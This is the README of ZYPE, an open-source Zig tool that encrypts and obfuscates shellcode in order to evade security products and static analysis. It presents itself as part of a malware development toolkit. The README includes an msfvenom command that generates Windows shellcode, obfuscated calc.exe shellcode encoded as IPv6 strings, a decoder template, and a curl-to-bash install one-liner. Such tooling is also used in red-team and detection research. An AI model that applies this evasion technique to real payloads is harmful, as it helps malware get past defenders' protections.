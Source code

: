 # ZYPE: Your Payload Encryptor

<p align="center">
  <img alt="GitHub License" src="https://img.shields.io/github/license/CX330Blake/zype">
  <img alt="GitHub top language" src="https://img.shields.io/github/languages/top/cx330blake/zype">
  <img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/cx330blake/zype/total">
  <img alt="GitHub repo size" src="https://img.shields.io/github/repo-size/cx330blake/zype">
  <img alt="X (formerly Twitter) Follow" src="https://img.shields.io/twitter/follow/CX330Blake">

</p>

<p align="center">
  <a href="#whats-zype">What's ZYPE?</a> •
  <a href="#showcase">Showcase</a> •
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="#test">Test</a> •
  <a href="#contribution">Contribution</a> •
  <a href="#zig-malware-toolkit">Zig Malware Toolkit</a> •
  <a href="#star-history">Star History</a>
</p>

<p height="300" align="center">
  <img src="./assets/ZYPE.png">
</p>

## What's ZYPE?

ZYPE: Zig Your Payload Encryptor - Transform your shellcode into undetectable, obfuscated payloads that bypass modern security solutions.

- ⚡ Lightning Fast: Written in Zig for optimal performance and memory safety
- 🎯 Multi-Method Obfuscation: Support for AES, RC4, XOR encryption plus MAC/IPv4/IPv6/UUID address obfuscation
- 🌐 Cross-Platform Compatible: Generated decoder templates work on Windows, Linux, and macOS without API dependencies
- 🛠️ Developer Friendly: Interactive mode for easy setup, plus command-line interface for automation
- 🔒 Advanced Evasion: Multiple encoding layers make static analysis nearly impossible
- 📦 Complete Solution: Generates both obfuscated payload data and ready-to-compile decoder templates
- 🚀 Zero Dependencies: Self-contained tool with no external requirements

## Showcase

In the following example, I will use MSFvenom to generate a Windows shellcode to execute calc.exe and use ZYPE to do the IPv6 obfuscation. Let's first generate the shellcode.

```bash
msfvenom -p windows/exec CMD=calc.exe -f raw -o shellcode.bin
```

After that, we use ZYPE to help use do the obfuscation.

```bash
zype -f shellcode.bin -m ipv6 > shellcode.zig
```

This will generate the encrypted/obfuscated shellcode and the function to decrypt/deobfuscate it in a Zig file. This is the output.

```zig
const std = @import("std");
const net = std.net;

const IPV6_ARRAY: [13][]const u8 = [_][]const u8{
    "fce8:8200:0000:6089:e531:c064:8b50:308b",
    "520c:8b52:148b:7228:0fb7:4a26:31ff:ac3c",
    "617c:022c:20c1:cf0d:01c7:e2f2:5257:8b52",
    "108b:4a3c:8b4c:1178:e348:01d1:518b:5920",
    "01d3:8b49:18e3:3a49:8b34:8b01:d631:ffac",
    "c1cf:0d01:c738:e075:f603:7df8:3b7d:2475",
    "e458:8b58:2401:d366:8b0c:4b8b:581c:01d3",
    "8b04:8b01:d089:4424:245b:5b61:595a:51ff",
    "e05f:5f5a:8b12:eb8d:5d6a:018d:85b2:0000",
    "0050:6831:8b6f:87ff:d5bb:f0b5:a256:68a6",
    "95bd:9dff:d53c:067c:0a80:fbe0:7505:bb47",
    "1372:6f6a:0053:ffd5:6361:6c63:2e65:7865",
    "0000:0000:0000:0000:0000:0000:0000:0000"
};
const NUMBER_OF_ELEMENTS: usize = 13;

fn ipv6Deobfuscation(ipv6_array: []const []const u8, allocator: std.mem.Allocator) ![]u8 {
    var buffer = try allocator.alloc(u8, ipv6_array.len * 16);
    var offset: usize = 0;

    for (ipv6_array) |ip| {
        const addr = net.Address.parseIp6(ip, 0) catch return error.InvalidIpFormat;
        const ip_bytes = @as([16]u8, @bitCast(addr.in6.sa.addr));
        @memcpy(buffer[offset..offset + 16], &ip_bytes);
        offset += 16;
    }

    return buffer;
}

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const shellcode = try ipv6Deobfuscation(&IPV6_ARRAY, allocator);
    defer allocator.free(shellcode);
    std.debug.print("Decrypted shellcode length: {}\n", .{shellcode.len});
    std.debug.print("Decrypted shellcode: {any}\n", .{shellcode});
}
```

## Installation

ZYPE is now currently support Linux only, but the Windows version will be released soon.

You can simply copy and paste the following one-liner to install ZYPE.

```bash
bash <(curl -sSL https://raw.githubusercontent.com/CX330Blake/zype/main/install.sh)
```

> [!WARNING]  
> Never execute any untrusted script on your machine. Read the script first.

On the other hand, you can clone this repo and use the following command to build your own ZYRA biary.

```bash
git clone https://github.com/CX330Blake/ZYPE
cd ZYPE
# You can change the build flag on your own
zig build --release=fast
```

## Usage

```
 ___  _   _ ___  ____
   /   \_/  |__] |___
  /__   |   |    |___

ZYPE shellcode encryptor v0.1.0
Copyright (C) 2025 @CX330Blake.
All rights reserved.

ZYPE v0.1.0 - Shellcode encryptor and obfuscator

Usage: zype [options]

Options:
  -h, --help              Show this help message
  -v, --version           Show version information
  -i, --interactive       Interactive mode (guided setup)
  -m, --method <type>     Encryption/obfuscation method
  -f, --file <path>       Input shellcode file path

Supported Methods:
  mac                     MAC address obfuscation
  ipv4                    IPv4 address obfuscation
  ipv6                    IPv6 address obfuscation
  uuid                    UUID obfuscation
  aes                     AES encryption (CTR mode)
  rc4                     RC4 encryption
  xor                     XOR encryption

Examples:
  zype -i                                         # Interactive mode
  zype -m aes -f shellcode.bin > shellcode.zig    # AES encrypt shellcode.bin
  zype -m mac -f shellcode.bin                    # MAC address obfuscation
  zype --method rc4 --file sc.bin                 # RC4 encryption

Notes:
  - Interactive mode provides guided setup for all options
  - Output includes both obfuscated data and decoder template
  - Generated code is cross-platform compatible (no Windows APIs)
```

## Test

You can run the following command in the **example** directory to test the ZYPE is working normally.

```bash
./show.sh
```

You should see no error and the shellcode is decrypted/deobfuscated.

## Contribution

This project is maintained by [@CX330Blake](https://github.com/CX330Blake/). PRs are welcome if you also want to contribute to this project.

## Zig Malware Toolkit

If you want to learn more about Zig for malware, here's some tools for malware development.

- [ZYPE](https://github.com/cx330blake/zype)
- [ZYRA](https://github.com/cx330blake/zyra)

## Star history

[![Star History Chart](https://api.star-history.com/svg?repos=CX330Blake/ZYPE&type=Date)](https://www.star-history.com/#CX330Blake/ZYPE&Date)
